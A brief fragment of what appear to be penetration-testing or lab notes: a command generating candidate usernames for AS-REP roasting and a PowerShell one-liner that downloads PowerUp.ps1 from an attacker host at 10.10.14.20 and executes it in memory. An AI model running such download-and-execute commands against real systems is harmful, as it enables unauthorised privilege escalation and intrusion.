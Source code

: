 # create list of usernames
```bash
/opt/username-anarchy/username-anarchy --input-file users.txt > asrep_users.txt
```

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20/PowerUp.ps1')
```

